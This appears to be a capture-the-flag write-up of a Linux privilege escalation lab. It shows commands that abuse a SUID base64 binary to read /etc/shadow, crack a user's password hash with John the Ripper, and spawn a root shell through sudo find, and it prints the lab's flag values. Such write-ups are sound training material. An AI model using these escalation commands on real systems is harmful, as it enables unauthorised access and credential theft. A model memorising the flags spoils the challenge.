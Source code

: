 # Linux Privilege Escalation Writeup

## FLAG 1

After receiving the SSH credentials for user `leonard`, I logged into the target machine.

### Initial Enumeration

- Checked user identity:

![2025-04-30_14-41](https://github.com/user-attachments/assets/841bccd3-d1da-47b7-8bb2-87e5b49cc5dd)

  ```bash
  whoami
  ```
  Output: `leonard`

- Checked sudo permissions:
  ```bash
  sudo -l
  ```
  Output: User `leonard` cannot run sudo.

- Checked kernel version:

![2025-04-30_14-42](https://github.com/user-attachments/assets/e1585fa5-7c03-466f-bb94-5d570d9e56cd)

  ```bash
  uname -a
  ```
  Output showed kernel version `3.10` (possible CentOS SUID PIE LFI, but this was not pursued).

- Searched for SUID binaries:

![base64](https://github.com/user-attachments/assets/2f022ead-713b-4599-92fe-bf1f61274cc5)

  ```bash
  find / -type f -perm -04000 2>/dev/null
  ```
  Found: `base64` is available as a SUID binary and executable as root.

### Exploiting SUID Base64

- Exported the shadow file path:

![2025-04-30_14-48](https://github.com/user-attachments/assets/e0e588f8-3d12-4a36-9ee3-e65fd2825c25)
![2025-04-30_14-48_1](https://github.com/user-attachments/assets/cf77ff48-dea8-4620-af04-d7450cc4ebe1)

  ```bash
  export shadows="/etc/shadow"
  ```

- Encoded and decoded to retrieve password hashes:
  ```bash
  base64 $shadows | base64 -d
  ```
  This revealed password hashes for `root`, `missy`, and `leonard`.

- Verified home directories:

![2025-04-30_17-48](https://github.com/user-attachments/assets/d8761082-8faa-46ca-bc95-90b8689406a3)

  ```bash
  ls /home
  ```
  Output: `rootflag`, `missy`, and `leonard`

- Saved missy's hash and cracked it using John the Ripper:

![2025-04-30_14-53](https://github.com/user-attachments/assets/25926e87-aa26-43be-be05-a416523b8c71)

  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt missy.txt
  ```
  Cracked password: `Password1`

### Privilege Escalation to Missy

- Logged in via SSH using missy's credentials.

- Checked sudo permissions:

![2025-04-30_14-55](https://github.com/user-attachments/assets/02613642-6a09-4c2b-81a0-f42dc8544f4a)

  ```bash
  sudo -l
  ```
  Output: `missy` can run `find` as sudo.

- Searched for flag1 using find:

![flag1](https://github.com/user-attachments/assets/d02fab7b-156e-4aaf-b0ef-643d7e50187f)

  ```bash
  find / -type f -name flag1.txt 2>/dev/null
  ```
  Output: `/home/missy/Documents/flag1.txt`

  Flag: `THM-42828719920544` 

## FLAG 2

After obtaining `flag1.txt`, I proceeded to escalate privileges using the `find` command, which `missy` is allowed to run as `sudo`.

### Exploiting `find` via GTFObins

- From [GTFOBins](https://gtfobins.github.io/gtfobins/find/), we know that the following command can be used to escalate to a root shell:

![2025-04-30_17-46](https://github.com/user-attachments/assets/96f072ed-fed0-44c7-b3c4-766ebc051e11)

```bash
sudo find . -exec /bin/sh -p \; -quit
```

This command starts a root shell due to the `-p` option preserving privileges.

### Obtaining the Final Flag

Once in the root shell:

![2025-04-30_17-47](https://github.com/user-attachments/assets/84d0ec8e-71a4-4789-8d55-42fe08f21cab)

- Navigated to the `rootflag` directory:
  ```bash
  cd ../rootflag
  ```

- Read the final flag:
  ```bash
  cat flag2.txt
  ```

  Flag: `THM-168824782390238` 

This completed the privilege escalation challenge and retrieved `flag2.txt`.

## Conclusion

This challenge provided a solid walkthrough of Linux privilege escalation techniques, particularly:

- Leveraging SUID binaries like `base64` for accessing restricted files
- Password cracking using John the Ripper
- Gaining root access by exploiting misconfigured `sudo` permissions on binaries such as `find`

Overall, it was a hands-on exercise that emphasized the importance of proper binary permissions and the dangers of insecure privilege delegation on Linux systems.
